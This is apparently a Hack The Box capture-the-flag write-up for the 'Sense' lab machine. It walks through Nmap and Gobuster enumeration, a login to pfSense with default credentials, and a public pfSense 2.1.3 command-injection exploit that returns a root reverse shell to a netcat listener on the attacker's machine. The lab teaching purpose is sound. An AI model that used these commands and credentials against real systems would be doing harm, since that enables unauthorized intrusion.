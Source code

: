 # HTB - Sense

#### Ip: 10.10.10.60
#### Name: Sense
#### Rating: Easy

----------------------------------------------------------------------

![Sense.png](../assets/sense_assets/Sense.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. I'll include the `--min-rate 10000` flag, just to speed the scan up a bit.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.60
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:15 CDT
Nmap scan report for 10.10.10.60
Host is up (0.078s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

Looks like we've just got HTTP/HTTPS ports open here. Lets further enumerate by adding on the `-sV` and `-sC` flags to enumerate versions and use basic Nmap scripts.

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ sudo nmap -sC -sV -T4 10.10.10.60 -p 80,443  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:19 CDT
Nmap scan report for 10.10.10.60
Host is up (0.063s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

Based on the Nmap scan and confirming by navigating to the site, port 80 http redirects to https://10.10.10.60. From here we'll we're met with a pfSense login page:

![pfsense_login.png](../assets/sense_assets/pfsense_login.png)

pfSence is is an open source firewall software that is extremely common. From past history I know that the default credentials are admin:pfsense, and sometimes these aren't changed by admins. Unfortunately for us, it appears they've been changed. Looks like we'll need to enumerate further. 

After several directory busting scans, I wasn't coming up with anything juicy. At this point I'll usually just throw a hail Mary and toss the kitchen sink at it, hoping I uncover an interesting subdirectory to move forward with.

By including the `-x php,txt,html,zip` flags in GoBuster, I'm hoping to uncover something like /admin.php or something interesting like that.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60 -k -x php,txt,html,zip
```

Here, I also need to use the `-k` flag to bypass the SSL certificate verification. 

After a long while I finally find something of value: https://10.10.10.60/system-users.txt

![system_users.png](../assets/sense_assets/system_users.png)

Nice! We now have a username, and knowing that the default password for pfSense is 'pfsense.'

Logging in we are greeted with an admin dashboard:

![pfsense_rohit.png](../assets/sense_assets/pfsense_rohit.png)

At this point lets take a look and see if we can identify any public exploits against this service. 

### Exploitation

There were so many options to choose from using Searchsploit, so I simply Googled pfsense 2.1.3 (Luckily for us one of the first bits of information in the admin dashboard is the installed version number) and found this exploit written in Python. https://www.exploit-db.com/exploits/43560

This appears to be a pretty straightforward script abusing a misconfiguration in 'status_rrd_graph_img.php' where we can upload a reverse shell back to our attacking machine. Looks like we only need to supply a few arguments before firing off the exploit:

![exploit_args.png](../assets/sense_assets/exploit_args.png)

Let's set up a netcat listener to catch a shell back on, and try the exploit out:

```text
┌──(ryan㉿kali)-[~/HTB/Sense]
└─$ python pfsense-2.1.3-rce.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 443 --username rohit --password pfsense 
CSRF token obtained
Running exploit...
Exploit completed
```

And back at our netcat listener we've caught a shell back as root! 

![nc_shell.png](../assets/sense_assets/nc_shell.png)

Nice! Because we caught the shell with root permissions, there's no need for privilege escalation. Lets grab the two flags for this box:

![flags.png](../assets/sense_assets/flags.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------------------------------
